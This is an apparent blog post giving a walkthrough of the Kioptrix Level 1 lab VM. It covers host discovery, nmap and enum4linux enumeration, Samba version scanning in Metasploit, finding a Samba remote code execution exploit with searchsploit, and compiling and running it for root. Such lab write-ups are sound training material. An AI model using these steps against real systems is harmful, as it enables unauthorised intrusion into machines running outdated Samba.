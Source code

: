 ```yaml
---
layout: post
title: Syntax Highlighting Post
date: 2018-09-24
excerpt: "Kioptrix 1 Write-Up"
tags: [ctf, cybersec, kioptrix, nmap, metasploit]
comments: true
---
```


Kioptrix (https://www.vulnhub.com/entry/kioptrix-level-1-1,22/) Walkthrough

I'm running a Kali VM in Virtualbox. For getting Kioptrix #1 to work in Vbox, see this guide: https://www.hypn.za.net/blog/2017/07/15/running-kioptrix-level-1-and-others-in-virtualbox/

VM Discovery
I had these set to NatNetwork, so they can access the internet, communite, but still be inaccessible from the outside.
netdiscover -r 10.0.2.0/24

VM ended up being on 10.0.2.6

Nmap Port Scan: nmap -p- -v -sV 10.0.2.6
22 OpenSSH 2.9p2 (protocol 1.99)
80 Apache httpd 1.3.20 ((Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111 rpcbind
139 Samba smbd
443 Apache ^
32768 status

More enumeration via enum4linux
Not much in here, but to check Samba version, will try MSF's samba scanner.
msf > use auxiliary/scanner/smb/smb_version

Set RHOSTS to our VM at 10.0.2.6

Running it revealed Samba 2.2.1a

Used searchsploit to find exploits

searchsploit samba 2.2

The last one looked promisng
"Samba < 2.2.8 (Linux/BSD) - Remote Code Execution | exploits/multiple/remote/10.c"

Copied the file to pwd, ran gcc on it, then a quick
./a.out 10.0.2.6
worked great. Instant root.
